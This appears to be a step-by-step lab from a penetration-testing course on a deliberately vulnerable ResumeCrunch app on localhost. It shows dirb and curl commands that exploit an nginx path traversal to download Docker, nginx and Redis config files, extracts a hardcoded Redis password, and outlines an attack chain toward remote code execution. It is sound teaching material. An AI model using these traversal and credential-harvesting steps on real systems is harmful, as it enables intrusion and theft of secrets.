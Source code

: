 # Lab 04 - Extract Docker Configuration Files

## Objective

Use dirb to find docker config files and download Dockerfile. Find the Redis server and password.

## Background

We have a hunch that this the redis database service is being served by a container. Let's use dirb (while using our path traversal expoit) against a list of common docker files to see if we 
can find any.


## Steps

### 1. Try a new dirb scan using our common-docker.txt file:


```bash
dirb http://localhost:8080/static../ common-docker.txt
```

**Expected discoveries:**
```
+ http://localhost:8080/static../Dockerfile (CODE:200|SIZE:439)
+ http://localhost:8080/static../docker-compose.yml (CODE:200|SIZE:584)
+ http://localhost:8080/static../nginx.conf (CODE:200|SIZE:353)
+ http://localhost:8080/static../redis.conf (CODE:200|SIZE:37)

```

### 2. Download and Examine Docker,NGINX and Redis config files

Retrieve the Docker, NGINX, and Redis config files:

```bash
curl http://localhost:8080/static../Dockerfile -o Dockerfile

curl http://localhost:8080/static../docker-compose.yml -o docker-compose.yml

curl http://localhost:8080/static../nginx.conf -o nginx.conf

curl http://localhost:8080/static../redis.conf -o redis.conf

```

Let's examine the contents of our Dockerfile, which contains the configuration for our app.py server:

```bash
cat Dockerfile
```
```Dockerfile
FROM python:3.13-slim

# Redis password variable
ARG REDIS_PASSWORD="hCQr7gvbyRRN79Ugvc9Lssq6"
ARG REDIS_CONTAINER="resumecrunch-redis"
ARG OPENAI_API_KEY="sk-yourkeyhere"

WORKDIR /app

# Install Python dependencies

# Copy application files
COPY . /app/

RUN pip install -r /app/requirements.txt

ENV OPENAI_API_KEY=${OPENAI_API_KEY}
ENV REDIS_PASSWORD=${REDIS_PASSWORD}
ENV REDIS_CONTAINER=${REDIS_CONTAINER}

CMD ["python3", "app.py"]
```

We have our redis container name and password!

```
resumecrunch-redis
hCQr7gvbyRRN79Ugvc9Lssq6
```


### 3. Create a Complete Infrastructure Map

Visualize the complete architecture:

```
=== ResumeCrunch Infrastructure Map ===

┌─────────────────────────────────────────┐
│         External (localhost:8080)       │
└──────────────┬──────────────────────────┘
               │
               ▼
┌─────────────────────────────────────────┐
│  Nginx Container (resumecrunch-nginx)   │
│  - Port: 80 (mapped to 8080)            │
│  - Vulnerability: Path traversal on     │
│    /static location (off-by-one slash)  │
└──────────────┬──────────────────────────┘
               │
               ▼
┌─────────────────────────────────────────┐
│  Flask App (resumecrunch-app)           │
│  - python:3.13-slim                     │
│  - Flask framework                      │
│  - Port: 5000 (internal)                │
│  - Upload folder: /app/resumes          │
│  - Uses: Flask-Caching                  │
└──────────────┬──────────────────────────┘
               │
               ▼
┌─────────────────────────────────────────┐
│  Redis (resumecrunch-redis)             │
│  - Port: 6379 (exposed to host)         │
│  - Password: hCQr7gvbyRRN79Ugvc9Lssq6   │
│  - Database: 0                          │
│  - Stores: Cached session data          │
└─────────────────────────────────────────┘

Attack Surface:
1. Nginx path traversal -> Full source disclosure
2. Redis port exposed -> Direct DB access
3. Flask-Caching -> Potential cache poisoning
4. Upload functionality -> Potential file upload attacks

```

## Verification Checklist

- [ ] Created custom Docker wordlist
- [ ] Ran `dirb` against `/static../` with Docker wordlist
- [ ] Downloaded `Dockerfile`
- [ ] Downloaded `docker-compose.yml`
- [ ] Downloaded `nginx.conf`
- [ ] Downloaded `redis.conf`
- [ ] Downloaded complete `requirements.txt`
- [ ] Extracted Redis password from configuration files
- [ ] Identified all container names and network configuration
- [ ] Found all exposed ports
- [ ] Confirmed Nginx misconfiguration in `nginx.conf`
- [ ] Tested Redis connectivity on port 6379
- [ ] Successfully authenticated to Redis (if accessible)
- [ ] Documented complete infrastructure architecture
- [ ] Compiled all credentials and sensitive information

## Key Discoveries Summary

By the end of this lab, you should have extracted:

### 1. Docker Configuration Files
- `Dockerfile` - Container build instructions
- `docker-compose.yml` - Multi-container orchestration
- `nginx.conf` - Web server configuration (with vulnerability)
- `redis.conf` - Redis server configuration

### 2. Application Files
- `app.py` - Complete Flask application source
- `requirements.txt` - All Python dependencies with versions

### 3. Credentials & Configuration
- **Redis password**: Extracted from docker-compose.yml or redis.conf
- **Container names**: All service container names
- **Network configuration**: Internal networking setup
- **Port mappings**: External to internal port mappings

### 4. Infrastructure Details
- **DB connection string**: `redis://hCQr7gvbyRRN79Ugvc9Lssq6@resumecrunch-redis:6379/0`
- **Upload folder path**: `/app/resumes`
- **Redis port**: 6379 (accessible from host)
- **Application port**: 5000 (internal)

### 5. Confirmed Vulnerabilities
- ✓ Nginx off-by-one slash path traversal
- ✓ Complete source code disclosure
- ✓ Configuration files exposed
- ✓ Redis port exposed to host
- ✓ Credentials hardcoded in config files

## Questions to Answer

1. What is the Redis password?
2. What container name does Redis use?
3. Is Redis port 6379 accessible from the host?
4. Can you authenticate to Redis with the discovered password?
5. What line in `nginx.conf` causes the path traversal vulnerability?
6. What Python version is the application using?
7. Where are uploaded resumes stored?
8. Are there any environment variables with sensitive data?

## Security Impact

**Severity:** CRITICAL

**Discovered Issues:**
1. **Complete Infrastructure Disclosure**: Full architecture exposed
2. **Credential Exposure**: Redis password and database details
3. **Configuration Exposure**: All service configurations accessible
4. **Direct Database Access**: Redis accessible from host
5. **Source Code Disclosure**: Entire application logic revealed

**Attack Chain Enabled:**
- Path traversal → Source disclosure → Credential extraction → Direct Redis access → Cache poisoning → RCE

## Next Steps

With complete infrastructure knowledge and Redis credentials, proceed to [Lab 05 - Test for Known Vulnerabilities](lab-05-test-vulns.md) to:
- Further analyze `app.py` for Redis usage patterns
- Verify resume upload folder accessibility
- Run `pip-audit-extra` on `requirements.txt`
- Identify Flask-Caching CVE-2021-33026 (pickle deserialization RCE)
- Prepare exploitation strategy

---

[← Previous: Path Traversal Discovery](lab-03-path-traversal.md) | [Next: Test for Known Vulnerabilities →](lab-05-test-vulns.md)
